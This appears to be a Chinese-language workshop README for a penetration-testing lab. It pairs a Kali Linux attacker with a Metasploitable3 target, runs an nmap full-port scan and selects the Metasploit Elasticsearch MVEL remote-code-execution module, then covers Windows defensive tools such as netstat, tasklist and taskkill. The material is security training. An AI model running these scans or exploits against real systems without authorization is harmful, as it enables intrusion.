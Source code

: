 <img width="691" alt="image" src="https://github.com/8wingflying/20231216/assets/19550271/71ea8c89-e637-4f61-ab7a-8973174b7dc0"># 環境設定1:virtualbox安裝與設定
- 標準安裝virtualbox ==> 下一步下一步就裝好了
- 使用系統管理員身分啟動cmd
- 切換到VirtualBox 目錄 ==> cd C:\Program Files\Oracle\VirtualBox
- 檢視現有NAT網路 == > VBoxManage list natnetworks
- 新增NAT網路 == > VBoxManage natnetwork add --netname PT --network "10.0.2.0/24" --enable
- 再次檢視現有NAT網路 == >VBoxManage list natnetworks

![A1.png](A1.png)

# 環境設定2:
- 確認攻擊機(Kali linux)與靶機(Metasploitable3)在同一個NAT網路
![m3_2.png](m3_2.png)
- 兩台機器都可以ping 到對方 
![m3_3.png](m3_3.png)

# A.駭客攻防實戰營(1):Kali linux 攻擊與滲透測試技術
- 步驟1:nmap -sV -p- 10.0.2.4
![nmap1.png](nmap1.png)
- 步驟2:啟動metasploit== > msfconsole
![metasploit_1.png](metasploit_1.png)
- 步驟3:search elastic
```
1  auxiliary/scanner/elasticsearch/indices_enum                       normal     Yes    ElasticSearch Indices Enumeration Utility
2  auxiliary/scanner/http/elasticsearch_traversal                     normal     Yes    ElasticSearch Snapshot API Directory Traversal
3  exploit/multi/elasticsearch/script_mvel_rce       2013-12-09       excellent  Yes    ElasticSearch Dynamic Script Arbitrary Java Execution
4  exploit/multi/elasticsearch/search_groovy_script  2015-02-11       excellent  Yes    ElasticSearch Search Groovy Sandbox Bypass
5  exploit/multi/misc/xdh_x_exec                     2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
```
![metasploit_2.png](metasploit_2.png)
- 步驟4:use exploit/multi/elasticsearch/script_mvel_rce

![metasploit_3.png](metasploit_3.png)
![metasploit_4.png](metasploit_4.png)


# B.駭客攻防實戰營(2):如何阻擋駭客攻擊?
### 你必須要知道的Windows作業系統常用工具
- 工作管理員(TaksManager)
![win1.png](win1.png)

- 事件檢視器(EventViewser)
![win2.png](win2.png)
- gpedit.msc
![win3.png](win3.png)
- services.msc
![win4.png](win4.png)
![win5.png](win5.png)
### Windows 指令(Windows Commands)
- 參考網址:https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/windows-commands
- 重要指令練習:
  - netstat指令
    - netstat -a
    - netstat -an
    - netstat -ano
  - tasklist: 顯示目前在本機電腦或遠端電腦上正在執行的處理序清單
    - https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/tasklist 
  - taskkill 殺執行中的程式(結束一個或多個工作或處理序)
    - taskkill /PID XXXX /F
    - https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/taskkill
  - where == > 找出檔案的位置
    - 語法: WHERE [/R dir] [/Q] [/F] [/T] pattern...
    - 描述: 顯示符合搜尋模式的檔案位置。
    - 範例1: where /R C: svchost
    - 範例2: WHERE /r c:\windows *.exe *.dll *.bat
    - https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/where
### 實作練習
- 1.使用 cmd 開啟notepad
- 2.使用工作管理員|詳細資料 找出notepad 的PID
- 3.行程終止: 使用taskkill /PID XXXX /F  ==> 終止notepad

## powershell指令(Cmdlet)
- https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/powershell
- https://learn.microsoft.com/zh-tw/powershell/
- https://learn.microsoft.com/zh-tw/powershell/scripting/how-to-use-docs?view=powershell-7.3
- 適用於系統管理的範例指令碼 https://learn.microsoft.com/zh-tw/powershell/scripting/samples/sample-scripts-for-administration?view=powershell-7.4

## 延伸學習教材1:nmap
## 延伸學習教材2:metsaploit
